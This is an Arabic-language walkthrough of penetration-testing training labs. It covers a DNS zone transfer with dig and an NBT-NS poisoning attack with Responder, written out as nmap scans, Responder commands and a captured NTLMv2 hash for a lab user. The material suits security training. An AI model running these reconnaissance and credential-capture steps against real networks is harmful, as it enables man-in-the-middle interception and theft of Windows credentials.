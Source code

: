 طيب نشوف انه عطانا نفس المخرجات السابقه  

الان لو نبي نطلع هوستات زيادة باستخدام DNS zone transfer  
```bash
dig @172.16.5.10 sportsfoo.com -t AXFR +nocookie  
```  

نشوف انه عطانا ايبي ماكان عندنا الي هو 10.10.10.6 وهذا يعني انه فيه شبكة ثانيه الي هي 10.10.10.x  

للاسف ماكملنا الحل بسبب انه كان فيه مشكلة بسيرفر اللاب الي شغالين عليه ف اكتفينا بقرائة اللاب  

---

معنا اليوم باذن الله ثاني لاب  

NBT-NS Poisoning and Exploitation with Responder  
-------------------------------------------------|  

In this lab, you will learn to perform MiTM (Man-In-The-Middle) attack and exploit windows target machines.  

طبعا اول شي راح ناخذ الايبي ونفحص كامل الشبكة  
```bash
ifconfig  
nmap -sn 172.16.5.0/24  
```  

نشوف انه عطانا هوستات up وهوستات down  
راح ناخذ ايبي التارقت تبعنا والي هو نهايته 10 ونفحصه  
```bash
nmap 172.16.5.10  
```  

نشوف انه عطانا عدد كبير من البورتات خلونا الان نفحصه بشكل اعمق ونشغل الديفولت سكربت  
```bash
nmap -A -O 172.16.5.10  
```  

نشوف انه بورت 445 الي هو شغال عليه smb  
يقول انه اصدار Windows 7 Enterprise 7601 Server Pack 1 microsoft-ds  

We will use Responder and MultiRelay tools to perform a MiTM attack to obtain a shell on the 172.16.5.10 machine.  

خلونا نشغل او شي اداة responder عشان نحاول نحصل الـ NTLM hash  
```bash
responder -I eth1 --lm  
```  

نشوف انه فعلا حصلنا NTLMv2 hash from a client (172.16.5.25) of the aline user.  
```bash
NTLMv2 Hash: aline::domain:79d1a136508806fc:931EE422AB6191B39B0B8FEC50176D3A:0101000000000000CEF214357613D80175C2BF005882959E00000000020000000000000000000000  
```  

طبعا يتم حفظ الهاش في مسار الاداة  
```bash
ls /usr/share/responder/logs  
```  

نشوف انه فعلا فيه ملف SMB-NTLMv2-172.16.5.25.log  

